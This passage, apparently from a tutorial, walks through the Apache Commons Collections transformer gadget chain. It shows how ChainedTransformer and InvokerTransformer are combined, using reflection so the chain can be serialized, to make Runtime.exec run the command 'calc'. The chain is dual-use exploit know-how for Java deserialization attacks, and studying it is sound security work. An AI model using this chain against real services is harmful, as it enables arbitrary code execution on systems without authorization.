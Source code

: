 ##### ConstantTransformer

Implement the `transform` to return the field `iConstant`. In other words, it does nothing.

```java
/**
 * Transforms the input by ignoring it and returning the stored constant instead.
 * 
 * @param input  the input object which is ignored
 * @return the stored constant
 */
public Object transform(Object input) {
    return iConstant;
}
```

##### ChainedTransformer

Implement the `transform` to call each `Transformer` in field `iTransformers` and reuse it returned `Object` as the args for next.

```java
/**
 * Transforms the input to result via each decorated transformer
 * 
 * @param object  the input object passed to the first transformer
 * @return the transformed result
 */
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

With there's `Transformer`, we can construt a `ChainedTransformer` to execute arbitrary code.

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.getRuntime()),
    new InvokerTransformer("exec",
            new Class[]{String.class}, new Object[]{"calc"})
});
chainedTransformer.transform(null);
```

But, if you try to serialize this `chainedTransformer` object, you will get a `Execption`. Because the `Runtime` has no implement the `Serialzable`. So we need to use reflection for building.

Re-construct it as below

```java
ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod",
            new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke",
            new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec",
            new Class[]{String.class}, new Object[]{"calc"})
});
chainedTransformer.transform(null);
```
